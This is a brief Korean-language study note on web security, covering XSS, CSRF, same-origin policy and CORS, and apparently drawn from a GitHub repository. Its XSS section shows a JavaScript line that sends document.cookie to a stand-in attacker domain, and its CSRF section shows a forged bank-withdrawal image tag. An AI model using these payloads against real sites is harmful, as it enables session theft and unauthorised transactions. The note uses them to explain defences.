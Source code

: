 # 보안

- XSS (Cross-Site Scripting)

  - 쿠키에 민감 정보를 두면 안됨. XSS 를 이용하여 탈취할 수 있음

  ```javascript
  (new Image()).src = "http://www.evil-domain.com/steal-cookie.php?cookie=" + document.cookie;
  ```

- CSRF (Cross-Site Request Forgery)

  - 인증에 쿠키만 사용한다면 사용자가 의도하지 않은 동작이 실행되게 할 수 있음 [CSRF](https://en.wikipedia.org/wiki/HTTP_cookie#Cross-site_request_forgery)
  
  ```javascript
<img src="http://bank.example.com/withdraw?account=bob&amount=1000000&for=mallory">
  ```
  
- SOP (Same-Origin Policy) / CORS (Cross-Origin Resource Sharing)

  - SOP
    <img>, <script> 외의 fetch 요청은 Origin (protocol + domain + port) 이 다른 서버에서 응답을 받는 것이 불가

  - CORS
    단, 응답의 Access-Control-Allow-Origin 헤더에 요청하는 Origin 이 들어있으면 가능

    - Preflight Request (브라우저 구현)

      브라우저가 OPTIONS 요청을 먼저 전송하여 응답의 Access-Control-Allow-Origin 헤더가 유효할 때에만 실제 요청하는 방식

    - Simple Request
      GET 요청의 응답에 담긴 Access-Control-Allow-Origin 을 확인

    - Credentialed Request
      fetch API 호출시 옵션으로 { credentials : 'include' } 전달하여 쿠키 정보를 담아 요청하는 방식. 기본값은 same-origin. (incldue, same-origin, omit 정책이 있음)

  - 로컬에서는 webpack dev server 에서 프록시를 이용할 수 있다

  - 참고
    https://evan-moon.github.io/2020/05/21/about-cors/

